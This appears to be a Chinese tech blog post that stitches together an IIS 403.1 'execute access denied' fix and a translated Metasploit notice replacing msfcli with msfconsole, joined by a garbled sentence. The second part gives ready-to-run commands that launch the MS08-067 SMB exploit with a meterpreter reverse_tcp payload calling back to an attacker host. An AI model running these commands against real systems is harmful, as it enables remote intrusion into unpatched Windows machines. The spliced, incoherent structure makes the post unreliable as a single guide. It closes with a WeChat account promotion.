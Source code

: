 ```yaml
---
layout: post
category: curleyg-code-hack
title: HTTP 错误 403.1 - 禁止访问：执行访问被拒绝
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: HTTP 错误 403.1 - 禁止访问：执行访问被拒绝
lock: need
---
```


# HTTP 错误 403.1 - 禁止访问：执行访问被拒绝

使用WIN2003 INTERNET信息服务（IIS）管理器，在建立一个网站虚拟目录，结果浏览网页时出现错误，错误提示信息如下：

该页无法显示

您试图从目录中执行 CGI、ISAPI 或其他可执行程序，但该目录不允许执行程序。

请尝试以下操作：

如果您认为该目录应该允许执行访问权限，请与网站管理员联系。

HTTP 错误 403.1 - 禁止访问：执行访问被拒绝。

Internet 信息服务 (IIS)

技术信息（为技术支持人员提供）

转到 Microsoft 产品支持服务并搜索包括“HTTP”和“403”的标题。
打开“IIS 帮助”（可在 IIS 管理器 (inetmgr) 中访问），然后搜索标题为“配置 ISAPI 扩展”、“配置 CGI 应用程序”、“使用网站权限保护站点”和“关于自定义错误消息”的主题。
在 IIS 软件开发工具包 (SDK) 或 MSDN Online Library 中，搜索标题为“Developing ISAPI Extensions”、“ISAPI and CGI”和“Debugging ISAPI Extensions and Filters”的主题。

 经过调试，发觉解决办法其实很简单。解决办法如下：

单击操作系统的开始－－程序－－管理工具－－Interneter服务器管理，在IIS中选择您的站点然后右键－－属性，在“主目录”选项中，查看“执行权限”是否设置为“无”，这里改成“纯脚本”保存即可。

新建网站的时候忘记纯脚本选项的msfcli 不能使用?

msfcli 不能使用，在新版metasploit不再有效。以下翻译自Metasploit 官网。

Hi, 大家好，

   这个一月份，我们做了一份关于 Metasploit 的命令行版本接口版本 Msfcli 的声明，今天我们要对它说再见了。

   取代 Msfcli，我们推荐你在 Msfconsole 使用 -x 选项。

   举个例子，我们如何在一条命令中使用 MS08_067 模块。

```bash
msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST [IP]; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST [IP]; run"
```

你也可以把它在msfconsole中分步写或者做成脚本形式 (resource scripts) 或者设置别名来简化输入。

下面举个例子如何在msfconsole中分步使用 MS08_067 模块。

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOST [IP]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [IP]
run
```

上面的命令也可以做成源脚本，然后输入以下命令使用

```bash
msfconsole -r name_of_resource_script.rc
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
